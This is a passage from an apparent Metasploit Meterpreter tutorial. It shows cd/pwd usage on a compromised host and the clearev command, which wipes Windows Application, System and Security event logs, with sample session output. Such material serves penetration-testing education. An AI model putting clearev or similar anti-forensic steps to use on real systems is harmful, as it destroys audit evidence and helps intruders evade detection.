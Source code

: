 ```
meterpreter >
```

# 5 - cd and pwd

The cd and pwd commands are used to change and display current working directly on the target host. The change directory “cd” works the same way as it does under DOS and *nix systems. By default, the current working folder is where the connection to your listener was initiated.

ARGUMENTS:

`cd`:	Path of the folder to change to
`pwd`:	None required


Example usuage:

```
meterpreter > pwd
c:\
```

```
meterpreter > cd c:\windows
```

```
meterpreter > pwd
c:\windows
```

```
meterpreter >
```

# 6 - clearev

The clearev command will clear the Application, System, and Security logs on a Windows system. There are no options or arguments.

Before using Meterpreter to clear the logs | Metasploit Unleashed

Example usage: Before

```
meterpreter > clearev

[*] Wiping 97 records from Application...
[*] Wiping 415 records from System...
[*] Wiping 0 records from Security...
```

```
meterpreter >
```
After using Meterpreter to clear the logs | Metasploit Unleashed
